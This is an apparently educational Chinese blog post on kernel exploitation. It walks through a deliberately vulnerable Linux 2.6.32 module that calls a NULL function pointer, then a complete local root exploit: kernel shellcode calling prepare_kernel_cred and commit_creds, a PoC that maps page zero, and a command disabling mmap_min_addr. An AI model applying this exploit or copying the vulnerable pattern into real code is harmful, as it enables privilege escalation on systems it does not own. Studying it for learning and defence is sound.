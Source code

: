 ```yaml
---
title: 'Kernel Exploit: NULL Dereference'
date: 2017-05-13 03:02:14
tags:
- kernel exploit
- null pointer
categories:
- kernel_exploit
---
```

环境都搭好了，美滋滋，接下来就是做kernel exploit的实验了。

这个类型的漏洞比较简单，就是空指针处理不当引起的。其实这只是指针解引用的一种情况而已。但现在这种NULL指针解引用基本已经很难利用了，mmap_min_addr就防止map low address。
<!-- more -->
### Example
```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*my_funptr)(void);

int bug1_write(struct file *file, const char *buf, unsigned long len)
{
    my_funptr();
    return len;
}

static int init_func(void)
{
    printk(KERN_ALERT "null_dereference driver init!\n");
    create_proc_entry("bug1", 0666, 0)->write_proc = bug1_write;
    return 0;
}

static void exit_func(void)
{
    printk(KERN_ALERT "null_dereference driver exit\n");
}

module_init(init_func);
module_exit(exit_func);

/*Makefile*/
obj-m := null.o 
KERNELDIR := /lib/modules/2.6.32.21/build
PWD := $(shell pwd) 
modules: 
	$(MAKE) -C $(KERNELDIR) M=$(PWD) modules 
modules_install: 
	$(MAKE) -C $(KERNELDIR) M=$(PWD) modules_install
```

当想/proc/bug1中写入时，会触发bug1_write函数，然后就会执行my_funptr，但是由于未初始化所以是NULL值，所以会出现问题。
```shell
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exp/null_exp$ echo 'fuck' > /proc/bug1
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exp/null_exp$ dmesg
[ 6613.943572] Pid: 3624, comm: bash Tainted: P      D W  (2.6.32.21 #1) VMware Virtual Platform
[ 6613.943573] EIP: 0060:[<00000000>] EFLAGS: 00210202 CPU: 0
[ 6613.943576] EIP is at 0x0
[ 6613.943577] EAX: c1ac4100 EBX: 00000005 ECX: 00000005 EDX: 09021808
[ 6613.943579] ESI: c1ac4100 EDI: 00000005 EBP: c1b11f18 ESP: c1b11f10
[ 6613.943580]  DS: 007b ES: 007b FS: 00d8 GS: 0033 SS: 0068
[ 6613.943581] Process bash (pid: 3624, ti=c1b10000 task=c18a8000 task.ti=c1b10000)
[ 6613.943582] Stack:
[ 6613.943583]  f80f2011 c27bdcc0 c1b11f3c c0249763 00000000 c1b11f78 c27bdd08 09021808
[ 6613.943587] <0> c27bdcc0 c1ac4100 c0249700 c1b11f64 c0244aa7 c1b11f98 c0217bed c27bdd08
[ 6613.943590] <0> 00000005 09021808 c1ac4100 00000005 09021808 c1b11f8c c02016c2 c1b11f98
[ 6613.943594] Call Trace:
[ 6613.943596]  [<f80f2011>] ? bug1_write+0x11/0x18 [null]
[ 6613.943599]  [<c0249763>] ? proc_file_write+0x63/0xa0
[ 6613.943601]  [<c0249700>] ? proc_file_write+0x0/0xa0
[ 6613.943604]  [<c0244aa7>] ? proc_reg_write+0x67/0xa0
[ 6613.943607]  [<c0217bed>] ? alloc_fd+0xbd/0xf0
[ 6613.943611]  [<c02016c2>] ? vfs_write+0xa2/0x1a0
[ 6613.943613]  [<c0244a40>] ? proc_reg_write+0x0/0xa0
[ 6613.943619]  [<c05734e0>] ? do_page_fault+0x160/0x3a0
[ 6613.943621]  [<c0201fe2>] ? sys_write+0x42/0x70
[ 6613.943623]  [<c010315c>] ? sysenter_do_call+0x12/0x28
[ 6613.943624] Code:  Bad EIP value.
[ 6613.943626] EIP: [<00000000>] 0x0 SS:ESP 0068:c1b11f10
[ 6613.943629] CR2: 0000000000000000
[ 6613.943632] ---[ end trace 99d97d6e15005969 ]---
```

### Exploit
基本思路是分配0地址空间，然后拷贝shellcode到这，然后在内核态下运行shellcode，接着返回用户态执行system函数。

首先找到prepare_kernel_cred和commit_creds函数的地址。
```shell
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exp/null_exp$ cat /proc/kallsyms | grep prepare_kernel_cred
c016b2f0 T prepare_kernel_cred
c070d9a8 r __ksymtab_prepare_kernel_cred
c0717204 r __kcrctab_prepare_kernel_cred
c071e0b0 r __kstrtab_prepare_kernel_cred
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exp/null_exp$ cat /proc/kallsyms | grep commit_creds
c016afb0 T commit_creds
c02eae40 T security_commit_creds
c070d9c8 r __ksymtab_commit_creds
c0717214 r __kcrctab_commit_creds
c071e0ec r __kstrtab_commit_creds
```
然后生成shellcode。
```asm
//sc.s
xor %eax, %eax  # %eax := 0
call 0xc016b2f0 # prepare_kernel_cred
call 0xc016afb0 # commit_creds
ret
```
用gcc编译：
```shell
gcc -o sc sc.s -nostdlib -Ttext=0
```
然后提取shellcode：
```shell
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exp/null_exp$ objdump -d sc
00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 e9 b2 16 c0       	call   c016b2f0 <_end+0xc016a2e0>
   7:	e8 a4 af 16 c0       	call   c016afb0 <_end+0xc0169fa0>
   c:	c3                   	ret    
```
shellcode已得到，接下来就是Poc了。
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

char payload[] = "\x31\xc0\xe8\xe9\xb2\x16\xc0\xe8\xa4\xaf\x16\xc0\xc3";

int main()
{
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS , -1, 0);
    memcpy(0, payload, sizeof(payload));

    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "foo", 3);
    system("/bin/sh");
    return 0;
}
```
编译执行应该能获得root权限，美滋滋。但我用2.6.32.21的内核版本没成功，后来看了0xmuhe师傅的那篇稿子才知道是mmap_min_addr的原因。
还得执行以下命令：
```shell
root@w0lfzhang666:/home/w0lfzhang/Desktop/kernel_exp/null_exp# sysctl -w vm.mmap_min_addr="0
vm.mmap_min_addr="0
```
这下终于成功了，美滋滋。
```shell
root@w0lfzhang666:/home/w0lfzhang/Desktop/kernel_exp/null_exp# ./exp
# id
uid=0(root) gid=0(root)
```
其实这种漏洞现在几乎是绝种了，就算有还有SMEP(防止内核态执行用户空间代码)防护措施。入门吗，先从简单的看起~~

### Reference
[Writing kernel exploits](https://tc.gtisc.gatech.edu/bss/2014/r/kernel-exploits.pdf)
[【系列分享】Linux 内核漏洞利用教程（二）：两个Demo](http://bobao.360.cn/learning/detail/3702.html)
